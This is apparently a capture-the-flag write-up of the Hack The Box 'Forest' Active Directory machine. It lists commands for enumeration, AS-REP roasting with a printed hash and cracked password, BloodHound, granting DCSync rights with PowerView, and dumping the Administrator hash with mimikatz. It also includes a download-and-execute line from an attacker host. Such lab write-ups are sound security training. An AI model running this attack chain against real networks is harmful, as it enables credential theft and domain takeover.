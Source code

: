 ```yaml
---
title: HTB-Forest
draft: false
tags:
  - htb
  - windows
  - easy
  - active-directory
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/Forest.png)

## Information Gathering
### Rustscan

`rustscan --addresses 10.10.10.161 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image.png)


## Enumeration
### RPC - TCP 135

rpcclient -U "" -N 10.10.10.161

enumdomusers


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-1.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-2.png)


### LDAP - TCP 389

`ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-3.png)

`ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-null-bing.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-4.png)

`cat ldap-null-bing.txt | awk '{print $1}' | sort | uniq -c | sort -nr > xb-bind-sorted.txt`

## AS-REP Roasting

`GetNPUsers.py 'htb.local/' -user users.txt -format hashcat -outputfile hashes -dc-ip 10.10.10.161`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-5.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-6.png)

```bash
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b2497b4761f7ce26a5b345a1560fc677$89a32db85e3185d3ac335ccf59a6ee074b8312756f9ff657214c12e48de9471781d46ff7ad10ab37024956cc171f75851d59be2d56eb62bd0e182ed04ccbb34603eb39124eff2c3c1d9603689f1707c1fd9f5699e76400d8edc484dded54f88b8d19b01e108bb54727cbdb3e608c5cd2aa5e0aeb371215f35dd0df22cef313fb7adc673443eacd5629ef413a2d761122e59802688ef28d99d3f8e38ea84e4822d7fb3170c6697df67c8868e06009b9c43a351f40ba96f4a7f28b99bd7b38b0d6ebd843dc8fc6d3e0fc87478fb9034f2c9dc97bd606289f1ac8493c8269f3e8e573e1d29a88d4
```

`haschat hash rockyou.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/forest-hash.png)

s3rvice

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-8.png)


`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-7.png)


## Privesc: svc-alfresco to 


upload SharpHound.exe

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-9.png)

./SharpHound.exe

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-10.png)

download 20240608002914_BloodHound.zip

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-11.png)


```bash
sudo neo4j console
sudo bloodhound
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-12.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-13.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-14.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-15.png)

`net group "Exchange Windows Permissions" svc-alfresco /add /domain`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-16.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-17.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-18.png)

upload PowerView.ps1

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-19.png)

. ./PowerView.ps1

(New-Object System.Net.WebClient).DownloadString('http://10.10.14.36:8000/PowerView.ps1') | IEX

net group "Exchange Windows Permissions" svc-alfresco /add /domain

$SecPass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPass)

Add-ObjectACL -PrincipalIdentity svc-alfresco -Credential $Cred -Rights DCSync

```powershell
net group "Exchange Windows Permissions" svc-alfresco /add /domain; $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', (ConvertTo-SecureString 's3rvice' -AsPlainText -Force)); Add-ObjectACL -PrincipalIdentity svc-alfresco -Credential $Cred -Rights DCSync
```


lsadump::dcsync /domain:htb.local /user:Administrator

./mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-20.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-21.png)
